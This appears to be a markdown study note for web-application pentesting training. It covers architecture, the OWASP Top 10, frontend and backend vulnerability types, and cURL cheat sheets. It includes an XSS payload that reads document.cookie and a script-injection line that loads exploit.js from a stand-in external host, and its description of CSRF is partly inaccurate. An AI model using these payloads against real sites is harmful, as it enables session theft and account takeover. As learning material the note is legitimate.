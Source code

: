 
# 🌐 Web Application Layout

### 🧩 Categories
-   **Web Application Infrastructure**
    -   `Client-Server`
    -   `One Server`
    -   `Many Servers - One Database`
    -   `Many Servers - Many Databases`
-   **Web Application Components**
    1.  `Client`
    2.  `Server`
        -   Webserver
        -   Web Application Logic
        -   Database
    3.  `Services` (Microservices)
        -   3rd Party Integrations
        -   Web Application Integrations
    4.  `Functions` (Serverless)
-   **Web Application Architecture (3 Layers)**
    -   🖥️ Presentation Layer: Frontend
    -   ⚙️ Application Layer: Backend
    -   💾 Data Layer: Database
    
# 🧱 [OWASP Top 10](https://owasp.org/www-project-top-ten/) Vulnerabilities

1.  🚫 Broken Access Control
2.  🔐 Cryptographic Failures
3.  💉 Injection
4.  ⚠️ Insecure Design
5.  ⚙️ Security Misconfiguration
6.  🧩 Vulnerable & Outdated Components
7.  🧍 Identification & Authentication Failures
8.  🧱 Software & Data Integrity Failures
9.  📜 Security Logging & Monitoring Failures
10.  🌐 Server-Side Request Forgery (SSRF)


# 🎨 Frontend Vulnerabilities
## 💥 Cross-Site Scripting (XSS)
-   **3 types:**  `Reflected`, `Stored`, `DOM`
```javascript
#"><img src=/ onerror=alert(document.cookie)>
```
## 🌀 Cross-Site Request Forgery (CSRF)
- caused by unfiltered user input
- **common `CSRF` attack:** 
	- gain admin priv
	- craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker.
```html
"><script src=//www.example.com/exploit.js></script>
```

## 🧰 Deobfuscation Tools
- [JS Console](https://jsconsole.com)
- [Prettier](https://prettier.io/playground/)
- [Beautifier](https://beautifier.io/)
- [JSNice](http://www.jsnice.org/)

# 🖥️ Backend Vulnerabilities

-   🔓 Broken Auth / Access Control (Bypass login)
-   📁 Malicious File Upload
-   🧨 Command Injection
-   💉 SQL Injection (SQLi)
-   🧾 CVEs (Common Vulnerabilities & Exposures)


# 🌐 cURL Commands
**option** | **desc**
|--|--|
`-o` | save in a file 
`-s` | for silent mode
`-k` |skip the certificate check
`-v` | print both the request and response
`-I` |	display response header
`-i` 	|	display response header and body
`-A` | to set our User-Agent from header
`-u admin:admin url` | 
`-H 'Authorization: Basic YWRtaW46YWRtaW4='` |
`-X POST -d 'username=admin&password=admin'` | 							-X for method and -d for data
`-L` | follow redirect link
`-b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1'` | set cookies 
`-s` | jq |for good json structer
	
🧪 **Example:**
```bash
curl -X POST -d '{"search":"f"}' -b 'PHPSESSID=9501nu5f74kqgohjh4ogu6debb' -H 'Content-Type: application/json' http://94.237.51.163:42040/search.php
```


## 🧾 HTB cURL Cheat Sheet
**Command** | **Description**
|--|--|
`curl -h` | cURL help menu
`curl inlanefreight.com` | Basic GET request
`curl -s -O inlanefreight.com/index.html` | Download file
`curl -k https://inlanefreight.com` | Skip HTTPS (SSL) certificate validation
`curl inlanefreight.com -v` | Print full HTTP request/response details
`curl -I https://www.inlanefreight.com` | Send HEAD request (only prints response headers)
`curl -i https://www.inlanefreight.com` | Print response headers and response body 
`curl https://www.inlanefreight.com -A 'Mozilla/5.0'` | Set User-Agent header
`curl -u admin:admin http://<SERVER_IP>:<PORT>/` | Set HTTP basic authorization credentials
`curl http://admin:admin@<SERVER_IP>:<PORT>/` | Pass HTTP basic authorization credentials in the URL
`curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://<SERVER_IP>:<PORT>/` | Set request header
`curl 'http://<SERVER_IP>:<PORT>/search.php?search=le'` | Pass GET parameters
`curl -X POST -d 'username=admin&password=admin' http://<SERVER_IP>:<PORT>/` | Send POST request with POST data
`curl -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' http://<SERVER_IP>:<PORT>/` | Set request cookies
`curl -X POST -d '{"search":"london"}' -H 'Content-Type: application/json' http://<SERVER_IP>:<PORT>/search.php` | Send POST request with JSON data

## 🔗 APIs with cURL

**Command** | **Description**
|--|--|
`curl http://<SERVER_IP>:<PORT>/api.php/city/london` | Read entry
`curl -s http://<SERVER_IP>:<PORT>/api.php/city/ \| jq` | Read all entries
`curl -X POST http://<SERVER_IP>:<PORT>/api.php/city/ -d '{"city_name":"HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'`|Create (add) entry
`curl -X PUT http://<SERVER_IP>:<PORT>/api.php/city/london -d '{"city_name":"New_HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'` | Update (modify) entry
`curl -X DELETE http://<SERVER_IP>:<PORT>/api.php/city/New_HTB_City` | Delete entry

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE4MDIyNjgxNDMsLTE0NDQ0OTI3NjQsLT
E3NDk4ODg2MTUsMTk2NTg1Njg2Ml19
-->